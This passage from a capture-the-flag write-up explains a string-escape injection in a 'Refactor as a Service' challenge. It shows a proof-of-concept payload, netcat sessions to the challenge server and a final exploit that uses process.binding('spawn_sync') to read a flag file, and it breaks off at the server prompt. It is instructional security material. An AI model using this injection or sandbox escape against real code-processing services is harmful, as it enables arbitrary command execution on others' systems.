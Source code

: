 From the syntax highlighting, we see that the single backslash we added escapes the backslash that was meant to escape the double quote. This allows us to close the string early and inject arbitrary JavaScript. Note that there is a trailing double quote at the end of the string, but we can add a comment to the end of our payload to avoid any syntax errors.
Putting this inside of a UnaryExpression, we get the payload:

```js
!'hello\\"; console.log(`Arbitrary code execution?!?!?`);//'
```

Base64 encoding this and sending it to the server:

```
steak@L3AKCTF:~$ nc 193.148.168.30 6671

/$$$$$$$                       /$$$$$$
| $$__  $$                     /$$__  $$
| $$  \ $$  /$$$$$$   /$$$$$$ | $$  \__/
| $$$$$$$/ |____  $$ |____  $$|  $$$$$$
| $$__  $$  /$$$$$$$  /$$$$$$$ \____  $$
| $$  \ $$ /$$__  $$ /$$__  $$ /$$  \ $$
| $$  | $$|  $$$$$$$|  $$$$$$$|  $$$$$$/
|__/  |__/ \_______/ \_______/ \______/

Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
ISdoZWxsb1xcIjsgY29uc29sZS5sb2coYEFyYml0cmFyeSBjb2RlIGV4ZWN1dGlvbj8hPyE/YCk7Ly8n
Arbitrary code execution?!?!?
Arbitrary code execution?!?!?
Refactored Code:
!'hello\\"; console.log(`Arbitrary code execution?!?!?`);//';

Goodbye!
```

And we find that the `console.log` statement was executed! 

### Final exploit

Let's format our exploit from part 1 to use this new gadget:

```js
!'hello\\";let result = process.binding(`spawn_sync`).spawn({ file: `cat`, args: [`cat`, `./flag`], stdio: [{ type: `pipe`, readable: true, writable: false }, { type: `pipe`, readable: false, writable: true }, { type: `pipe`, readable: false, writable: true },], }); let output = result.output[1].toString(); console.log(output)//'
```

All that's left is to base64 encode this and send it to the server:

```
steak@L3AKCTF:~$ nc 193.148.168.30 6671

/$$$$$$$                       /$$$$$$
| $$__  $$                     /$$__  $$
| $$  \ $$  /$$$$$$   /$$$$$$ | $$  \__/
| $$$$$$$/ |____  $$ |____  $$|  $$$$$$
| $$__  $$  /$$$$$$$  /$$$$$$$ \____  $$
| $$  \ $$ /$$__  $$ /$$__  $$ /$$  \ $$
| $$  | $$|  $$$$$$$|  $$$$$$$|  $$$$$$/
|__/  |__/ \_______/ \_______/ \______/

Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
```